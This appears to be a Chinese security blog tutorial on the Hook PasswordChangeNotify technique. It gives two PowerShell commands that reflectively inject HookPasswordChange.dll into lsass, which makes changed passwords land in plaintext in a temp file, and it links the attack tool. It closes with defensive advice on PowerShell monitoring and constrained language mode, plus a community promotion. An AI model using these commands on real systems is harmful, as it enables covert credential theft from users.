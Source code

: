 **目录**

[Hook PasswordChangeNotify](#t0 "Hook PasswordChangeNotify")

[使用Invoke-ReflectivePEInjection.ps1脚本获取修改密码后的明文密码](#t1 "使用Invoke-ReflectivePEInjection.ps1脚本获取修改密码后的明文密码")

[Hook PasswordChangeNotify的防御措施](#t2 "Hook PasswordChangeNotify的防御措施")

* * *

Hook PasswordChangeNotify
-------------------------

Hook PasswordChangeNotify的作用是当用户修改密码后在系统中进行同步。攻击者可以利用该功能获取用户修改密码时输入的密码明文。在修改密码时，用户输入新密码后，LSA会调用PasswordFileter来检查该密码是否符合复杂性要求。如果密码符合复杂性要求，LSA会调用PasswordChangeNotify，在系统中同步密码。

### 使用Invoke-ReflectivePEInjection.ps1脚本获取修改密码后的明文密码

使用Empire下的Invoke-ReflectivePEInjection.ps1，HookPasswordChange.dll需要我们自己准备，地址：[GitHub - clymb3r/Misc-Windows-Hacking: Miscellaneous projects related to attacking Windows.](https://github.com/clymb3r/Misc-Windows-Hacking "GitHub - clymb3r/Misc-Windows-Hacking: Miscellaneous projects related to attacking Windows.")。我们使用如下命令将 HookPasswordChange.dll注入内存。

```
Import-Module .\Invoke-ReflectivePEInjection.ps1      
Invoke-ReflectivePEInjection -PEPath HookPasswordChange.dll -procname lsass
```


![](https://img-blog.csdnimg.cn/2020021821231548.png)

只要修改了用户的密码，修改后的明文密码就会记录在 C:\\Windows\\Temp\\passwords.txt 文件中。

![](https://img-blog.csdnimg.cn/20200218212434600.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200218212501897.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

Hook PasswordChangeNotify的防御措施
------------------------------

使用Hook PasswordChangeNotify方法不需要重启系统、不会在系统磁盘中留下DLL文件、不需要修改注册表。如果PasswordChangeNotify被攻击者利用，网络管理员是很难检测到的。所以，在日常网络维护工作中，需要对PowerShell进行严格的监视，并启用约束语言模式，对Hook PasswordChangeNotify进行防御。

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)
